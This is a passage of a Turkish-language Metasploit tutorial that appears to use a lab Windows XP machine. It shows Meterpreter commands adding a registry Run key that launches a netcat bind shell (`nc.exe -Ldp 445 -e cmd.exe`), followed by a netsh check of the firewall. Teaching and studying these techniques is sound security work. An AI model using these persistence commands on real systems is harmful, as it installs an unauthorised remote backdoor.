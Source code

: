 

Komut çıktısında görüldüğü gibi şu an için `VMware Tools, VMware User Process, quicktftpserver` yazılımları otomatik başlamaya ayarlanmış durumda. Biz yeni ayarımızı `reg setval` komutu ile ilave edelim ve `reg queryval` komutu ile tekrar kontrol edelim.


```bash
meterpreter **&gt;** reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe'
Successful set nc.
meterpreter **&gt;** reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
Key: HKLM\software\microsoft\windows\currentversion\Run
Name: nc
Type: REG_SZ
Data: C:\windows\system32\nc.exe -Ldp 445 -e cmd.exe
```



<h3 class="wp-block-heading" id="firewall-ayarları">Firewall Ayarları



Doğrudan Registry ayarlarından yapabileceğinizi gibi `netsh` komutu ile de firewall ayarlarını yapabilirsiniz. Kullanımı göstermek açısından, firewall ayarlarını komut satırından ayarlayalım. Bunun için Meterpreter komut satırından Windows komut satırına girelim.


```bash
meterpreter **&gt;** execute -f cmd -i
Process 1604 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.
C:\ **&gt;**
```



Firewall ayarlarının mevcut halini görelim.


```bash
C:\ **&gt;** netsh firewall show opmode
Netsh firewall show opmode

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  **=** Enable
Exception mode                    **=** Enable

Standard profile configuration **(**current**)**:
-------------------------------------------------------------------
Operational mode                  **=** Enable
Exception mode                    **=** Enable

Local Area Connection firewall configuration:
-------------------------------------------------------------------
Operational mode                  **=** Enable
```
